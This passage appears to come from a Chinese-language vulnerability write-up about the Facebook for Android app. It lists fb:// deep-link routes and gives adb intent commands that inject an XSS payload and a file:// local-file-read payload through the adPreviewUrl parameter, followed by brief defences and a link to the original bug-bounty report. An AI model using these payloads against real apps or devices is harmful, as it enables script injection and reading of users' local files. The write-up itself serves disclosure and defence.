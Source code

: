 ``` url
fb://ads_payments_select_payment_method/?fb_hidesTabBar=String&targetURI=String&entryPoint=String&presentationMethod=String
fb://ads_payments_UK_direct_debit_guarantee/?fb_hidesTabBar=String&targetURI=String&entryPoint=String&presentationMethod=String
fb://author_publisher_settings_add_publications_modal/?fb_hidesTabBar=String&targetURI=String&entryPoint=String&presentationMethod=String
```
总共有521一个链接

 
### 0x02 漏洞利用

根据上面的脚本跑出来的url,可以在其基础上，随机初始化参数后，自动化跑模拟器或真机，观察结果

Payload:

**adb shell am start -a "android.intent.action.VIEW" -d "fb_url"**

找出其中一些比较有利用价值的payload:

```
adb shell am start -a "android.intent.action.VIEW" -d "fb://payments_add_paypal/?url={STRING}"

adb shell am start -a "android.intent.action.VIEW" -d "fb://ig_lwicreate_instagram_account_full_screen_ad_preview/?adPreviewUrl={STRING}"

adb shell am start -a "android.intent.action.VIEW" -d "fb://ads_payments_prepay_webview/?account={STRING}\&contextID={STRING}\&paymentID={STRING}\&url={STRING}\&originRootTag={INTEGER}"

adb shell am start -a "android.intent.action.VIEW" -d "fb://ig_lwicreate_instagram_account_full_screen_ad_preview/?adPreviewUrl=https://google.com"
```

由于墙内的原因(你懂的),最终效果引用原作者的图

XSS 攻击payload_1

```
adb shell am start -a "android.intent.action.VIEW" -d "fb://ig_lwicreate_instagram_account_full_screen_ad_preview/?adPreviewUrl=javascript:confirm('https://facebook.com/Ashley.King.UK')"

```
![](/Users/tasfa/Downloads/fbxss.png)

LFI 攻击payload_2

```
adb shell am start -a "android.intent.action.VIEW" -d "fb://ig_lwicreate_instagram_account_full_screen_ad_preview/?adPreviewUrl=file:///sdcard/CDAInfo.txt"
```
![](/Users/tasfa/Downloads/fblfi.png)

### 0x03 漏洞防御

* 尽量不要使用 setJavaScriptEnable(true)
* 尽量使用加密的方式存储deeplink路由信息等等关键信息
* 进行非法来源检测


### 0x04 参考

[Breaking the Facebook for Android application](https://ash-king.co.uk/facebook-bug-bounty-09-18.html)
